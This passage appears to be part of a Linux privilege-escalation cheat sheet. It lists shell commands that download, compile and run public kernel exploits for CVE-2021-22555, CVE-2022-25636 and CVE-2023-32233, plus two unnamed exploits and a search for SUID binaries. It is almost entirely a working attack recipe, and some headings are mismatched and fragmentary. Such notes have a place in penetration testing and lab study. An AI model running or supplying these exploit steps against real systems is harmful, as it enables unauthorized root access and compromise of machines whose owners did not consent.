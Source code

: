 ```
bash compile.sh
```
### two different exploits available
Simply run the first exploit
```
./exploit-1
```
For the second exploit, find SUID Binaries
```
find / -perm -4000 2>/dev/null
```
Then we can choose a binary and specify the full path of the binary as an argument for the exploit and execute it.
```
./exploit-2 /usr/bin/sudo
```
## Vulnerable kernel versions: 2.6 - 5.11
### CVE-2021-22555
```
wget https://raw.githubusercontent.com/google/security-research/master/pocs/linux/cve-2021-22555/exploit.c
```
```
gcc -m32 -static exploit.c -o exploit
```
```
./exploit
```
## Linux kernel 5.4 through 5.6.10
### CVE-2022-25636
```
git clone https://github.com/Bonfee/CVE-2022-25636.git
```
```
cd CVE-2022-25636
```
```
make
```
```
./exploit
```
## vulnerability in the Linux Kernel up to version 6.3.1
### CVE-2023-32233
This vulnerability exploits the so called anonymous sets in nf_tables by using the Use-After-Free vulnerability
```
git clone https://github.com/Liuk3r/CVE-2023-32233
```
```
cd CVE-2023-32233
```
```
gcc -Wall -o exploit exploit.c -lmnl -lnftn
```
```
./exploit
```
# netstat -antp
```
127.0.0.1:11211
```